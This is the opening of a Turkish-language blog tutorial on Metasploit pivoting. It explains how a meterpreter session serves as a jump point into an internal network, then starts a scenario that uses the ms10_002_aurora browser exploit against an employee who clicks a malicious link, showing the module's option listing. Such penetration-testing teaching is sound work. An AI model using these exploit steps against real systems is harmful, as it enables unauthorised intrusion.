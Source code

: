 ```yaml
---
draft: false

title:  'MSF Pivoting'
date: '2017-06-05T13:33:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Bir sistemde meterpreter shell oturumu açtığınızı varsayalım. Oturum açtığınız sistem, ağda bulunan ancak tam yetkili bir bilgisayar olmayabilir. Bu ilk oturum açtığınız sistemi bir sıçrama tahtası olarak kullanıp aynı ağdaki diğer bilgisayarlara erişmeye\_pivoting\_adı verilmektedir. Başka bir terminolojide\_kıyı başı\_veya\_giriş noktası\_olarak isimlendirildiğine de rast gelebilirsiniz." 
 
url:  /tr/msf-pivoting/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Pivoting Nedir?



Bir sistemde meterpreter shell oturumu açtığınızı varsayalım. Oturum açtığınız sistem, ağda bulunan ancak tam yetkili bir bilgisayar olmayabilir. Bu ilk oturum açtığınız sistemi bir sıçrama tahtası olarak kullanıp aynı ağdaki diğer bilgisayarlara erişmeye **pivoting** adı verilmektedir. Başka bir terminolojide **kıyı başı** veya **giriş noktası** olarak isimlendirildiğine de rast gelebilirsiniz.



Normalde doğrudan erişimi bulunmayan sunucu veya ağ sistemlerine, pivoting kullanarak erişme şansınız bulunmaktadır. Aşağıda inceleyeceğimiz senaryoda, meterpreter shell açılan bir bilgisayarın ağ bağlantılarını kullanarak, başka bir bilgisayara ulaşmayı deneyeceğiz. Bunu yaparken, meterpreter’in sunduğu rotalama imkanından yararlanacağız.



## 1.Bilgisayara Shell Açalım



Burada kullanılan `exploit/windows/browser/ms10_002_aurora` modülü sayesinde, hazırlanan zararlı bir linke tıklayan şirket çalışanının bilgisayarında oturum açılmaktadır.


```bash
msf **&gt;** use exploit/windows/browser/ms10_002_aurora 
msf exploit**(**ms10_002_aurora**)** **&gt;** show options

Module options:

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   SRVHOST     0.0.0.0          yes       The local host to listen on.
   SRVPORT     8080             yes       The local port to listen on.
   SSL         false            no        Negotiate SSL **for **incoming connections
   SSLVersion  SSL3             no        Specify the version of SSL that should be used **(**accepted: SSL2, SSL3, TLS1**)**
   URIPATH                      no        The URI to use **for **this exploit **(**default is random**)**


```